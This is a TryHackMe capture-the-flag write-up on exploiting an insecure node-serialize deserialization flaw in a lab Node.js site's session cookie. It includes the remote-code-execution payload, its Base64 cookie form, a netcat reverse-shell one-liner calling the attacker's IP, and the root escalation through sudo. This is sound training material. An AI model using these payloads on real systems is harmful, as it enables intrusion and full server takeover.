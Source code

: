 **<p align="center">TryHackMe: Jax Sucks Alot.............</p>**
---

<p align="center">
  <img src="https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Jax-Sucks-Alot/Images/room%20icon.png" alt="image alt" width="180" />
</p>

[![Day 28 of 30 – Hack Documentation Challenge](https://img.shields.io/badge/Day%2028%20of%2030-Hack%20Documentation%20Challenge-crimson?style=for-the-badge&logo=tryhackme)](https://tryhackme.com)

“In JavaScript everything is a terrible mistake."

**Topic:** Web application pentesting

**Completed:** 8/12/2025

“We are Horror LLC, we specialize in horror, but one of the scarier aspects of our company is our front-end webserver. We can't launch our site in its current state and our level of concern regarding our cybersecurity is growing exponentially. We ask that you perform a thorough penetration test and try to compromise the root account. There are no rules for this engagement. Good luck!”

<p align="center">+++++++++</p>

Beginning with an `nmap -sV -sC` scan, I discovered two open TCP ports:
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http
```
Navigating to the HTTP service, I found a website named Horror LLC, featuring a simple input field for visitors to submit their email addresses to receive newsletters.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Jax-Sucks-Alot/Images/Screenshot%201.png)

Inspecting the webpage’s source code revealed an interesting snippet of Node.js JavaScript, potentially exploitable given the room’s hint:
“In JavaScript everything is a terrible mistake.”

The source included a script that set a cookie with a suspicious session value, and submitted the email via a POST request, suggesting some backend logic processing the input.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Jax-Sucks-Alot/Images/Screenshot%202.png)

To check for basic client-side vulnerabilities, I tested the email input field with a common XSS payload:
```
test@example.com"><script>alert('XSS')</script>
```

However, this did not trigger any popup alert or visible script execution, indicating that the input was likely sanitized or not directly rendered.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Jax-Sucks-Alot/Images/Screenshot%203.png)

Using Firefox’s developer tools, I further inspected the page’s behavior during form submission. After submitting a test email address, I monitored the Storage tab and noticed a cookie was set, containing a Base64-encoded JSON string.
This suggested that the application stored some session or user data client-side in an encoded cookie, likely for tracking newsletter signups or sessions.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Jax-Sucks-Alot/Images/Screenshot%204.png)

Noticing the cookie value was Base64 encoded, I decoded it using an online tool. The result was:
```
{"email":"tester@email.com"}
```
This confirmed that the user input was being serialized and stored in the cookie, suggesting that the server likely deserializes this data on the backend, a potential vulnerability point.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Jax-Sucks-Alot/Images/Screenshot%205.png)

To investigate further, I looked into Node.js deserialization exploits and found a payload example on Exploit-db:
```
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
```           

Although the original payload included additional code wrapping, I discovered that injecting the function directly into the `email` field was sufficient to trigger code execution. 

This is because the server deserializes the JSON stored in the cookie and specifically processes the `email` property, making extra wrapping unnecessary. Using this simpler form made the exploit more straightforward:

```
{"email":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 4 10.201.113.243')}()"
```

I replaced the `ls` command with a `ping` directed to my local machine to verify if the exploit could cause the server to initiate a callback.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Jax-Sucks-Alot/Images/Screenshot%206.png)

On my local machine, I set up a `tcpdump` listener to capture ICMP ping requests by running:
```
sudo tcpdump -i eth0 icmp
```
This command listens on the `eth0` network interface and filters for ICMP packets, allowing me to observe incoming ping requests from the target server.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Jax-Sucks-Alot/Images/Screenshot%207.png)

Using the crafted exploit payload:
```
{"email":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 4 10.201.113.243')}()"
```

I encoded it using an online Base64 encoder, resulting in the following cookie value:
```
eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXtyZXF1aXJlKFwnY2hpbGRfcHJvY2Vzc1wnKS5leGVjKCdwaW5nIC1jIDEwLjIwMS4xMTMuMjQzJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7fSgpIn0=
```
I then replaced the cookie value with this string in the browser and refreshed the page. This successfully triggered ping requests to my local `tcpdump` listener, confirming the server executes the payload and the vulnerability is exploitable.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Jax-Sucks-Alot/Images/Screenshot%208.png)

Using and modifying the classic PentestMonkey Netcat reverse shell payload:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.201.113.243 4621 >/tmp/f
```
I set up a Netcat listener on my local machine, listening on port `4621`. I then incorporated this payload into my original exploit, Base64 encoded the entire JSON, and inserted it into the session cookie value field.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Jax-Sucks-Alot/Images/Screenshot%209.png)

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Jax-Sucks-Alot/Images/Screenshot%2010.png)

After refreshing the page to trigger the payload, I successfully received a reverse shell connection through the Netcat listener, landing me in the server’s `/opt/webapp` directory.
To stabilize the shell for easier interaction, I ran the following commands:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Jax-Sucks-Alot/Images/Screenshot%2011.png)

Running `sudo -l` revealed that the user had permission to run **all commands as root without a password**, opening the door to full control of the system!

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Jax-Sucks-Alot/Images/Screenshot%2012.png)

Next, I checked for user accounts on the system with home directories using:
```
cat /etc/passwd | grep “/home”
```
Finding three accounts, the `dylan` user stood out the most. With root access secured, accessing Dylan’s home directory and reading the `user.txt` flag, followed by the root flag, was easy!

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Jax-Sucks-Alot/Images/Screenshot%2013.png)

<p align="center">+</p>

**Lessons Learned**

This challenge was a solid demonstration of how powerful and dangerous deserialization vulnerabilities can be, especially in Node.js applications using `node-serialize`. Even something as simple as a cookie value can be exploited to gain full remote code execution if not properly validated.

It taught the importance of thoroughly inspecting client-side data handling and understanding the backend mechanisms involved. It was a great exercise in combining reconnaissance, creative payload crafting, and practical exploitation to achieve a full compromise.

I had fun learning something new!

<p align="center">+++++++++</p>

🔒 Out of respect for the learning experience, I’ve chosen not to share the flag answers directly. Instead, I’ve documented my full process to support both others and myself in understanding the vulnerability.

**Resources**:
- [TryHackMe's Jason Room](https://tryhackme.com/room/jason)
- [Node.js Explaination](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
- [Exploit-DB](https://www.exploit-db.com/exploits/45265)
- [Online Decoder](https://appdevtools.com/base64-encoder-decoder)
